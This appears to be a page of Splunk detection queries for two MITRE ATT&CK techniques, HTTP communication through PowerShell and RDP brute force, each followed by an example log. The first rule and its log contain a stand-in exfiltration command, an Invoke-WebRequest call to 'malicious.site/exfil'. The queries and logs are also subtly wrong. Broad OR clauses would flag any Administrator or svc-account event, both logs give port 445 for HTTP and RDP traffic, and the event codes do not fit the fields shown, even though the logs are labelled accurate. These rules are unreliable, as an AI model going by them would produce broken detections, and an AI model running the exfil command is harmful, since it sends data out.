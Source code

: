 

## T1071.001 - Detection of HTTP Communication via powershell.exe

### Splunk Query

```spl
index=windows sourcetype="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode="3" CommandLine="Invoke-WebRequest -Uri http://malicious.site/exfil"
OR ParentProcessName="C:\Windows\System32\cmd.exe"
OR User="Administrator"
```
### Accurate Result Data (Example Log)

```json
{
  "timestamp": "2024-05-28 17:30:00",
  "MITRE_Technique": "T1071.001",
  "Description": "Detection of HTTP Communication via powershell.exe",
  "sourcetype": "WinEventLog:Microsoft-Windows-PowerShell/Operational",
  "EventCode": "3",
  "CommandLine": "Invoke-WebRequest -Uri http://malicious.site/exfil",
  "ParentProcessName": "C:\Windows\System32\cmd.exe",
  "User": "Administrator",
  "Source_Network_Address": "192.168.56.107",
  "DestinationPort": "445"
}
```

---


## T1021.001 - Detection of RDP Brute Force via mstsc.exe

### Splunk Query

```spl
index=windows sourcetype="WinEventLog:Security" EventCode="4625" CommandLine="mstsc.exe /v:192.168.56.102 -session 43"
OR ParentProcessName="C:\Windows\System32\explorer.exe"
OR User="svc-account"
```
### Accurate Result Data (Example Log)

```json
{
  "timestamp": "2024-05-28 17:35:00",
  "MITRE_Technique": "T1021.001",
  "Description": "Detection of RDP Brute Force via mstsc.exe",
  "sourcetype": "WinEventLog:Security",
  "EventCode": "4625",
  "CommandLine": "mstsc.exe /v:192.168.56.102 -session 43",
  "ParentProcessName": "C:\Windows\System32\explorer.exe",
  "User": "svc-account",
  "Source_Network_Address": "192.168.56.150",
  "DestinationPort": "445"
}
```

---